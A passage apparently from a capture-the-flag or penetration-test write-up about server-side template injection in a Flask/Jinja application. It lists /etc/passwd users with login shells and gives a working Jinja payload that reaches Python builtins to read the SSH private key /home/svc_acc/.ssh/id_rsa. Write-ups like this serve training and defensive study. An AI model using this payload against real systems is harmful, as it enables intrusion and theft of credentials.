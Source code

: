 ![](screenshots/etc_passwd.png)

Filter valid shells:

```bash
cat etc_passwd.txt | grep "sh$"
```

![](screenshots/etc_passwd_sh.png)

Users identified:
- `root`
- `svc_acc`

---
### 3.3 Exfiltrating SSH Private Key

We attempt to read the user’s private key:

```jinja
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read() }}
```
